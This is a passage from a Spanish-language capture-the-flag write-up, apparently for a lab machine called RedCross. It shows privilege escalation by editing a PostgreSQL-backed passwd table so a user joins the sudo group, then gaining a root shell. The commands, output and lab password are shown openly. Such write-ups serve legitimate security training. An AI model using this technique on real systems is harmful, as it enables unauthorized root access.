 ```
-rw-------  1 root root 1.0K Jun  3  2018 .rnd
-rw-------  1 root root   33 Jun  8  2018 root.txt
-rw-r--r--  1 root root   74 Jun  6  2018 .selected_editor
drwx------  4 root root 4.0K Jun  3  2018 .thumbnails
-rw-------  1 root root  13K Oct 31 12:30 .viminfo
```

Recordemos que como solo podemos editar el grupo, aunque lo cambiemos a root, no podremos leer todos los archivos donde los permisos solo sean de usuario.

Pero si hay una manera en la que un usuario puede adquirir todos los poderes de otro, esto es mediante SUDO. Ahora que somos del grupo chido, veamos que hay en sudoers:

```
miau@redcross:~$ cat /etc/sudoers | grep -E 'ALL$'
cat /etc/sudoers | grep -E 'ALL$'
root	ALL=(ALL:ALL) ALL
%sudo   ALL=(ALL:ALL) ALL
```

Esto significa que cualquier que pertenezca al grupo sudo, [podrá](https://www.hostinger.com/tutorials/sudo-and-the-sudoers-file/) subir a root. Ahora solo falta verificar cual es el grupo de sudo:

```
miau@redcross:~$ cat /etc/group | grep sudo
cat /etc/group | grep sudo
sudo:x:27:
```

Ahora si, cambiemos el grupo en la shell conectada a postgre:

```
update passwd_table set gid=27 where username='miau';
select * from passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell
----------+------------------------------------+------+------+-------+----------------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 miau     | $1$aINCdBU3$DI6tECMqjpMZ.D5c/DkpM/ | 2020 |   27 |       | /var/jail/home | /bin/bash
(2 rows)
```

Ahora que nuestro usuario `miau` pertenece al grupo sudo, elevemos a nuestro usuario:

```
miau@redcross:~$ sudo -s
sudo -s

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for miau: CCutRKf7

root@redcross:/var/jail/home#
```
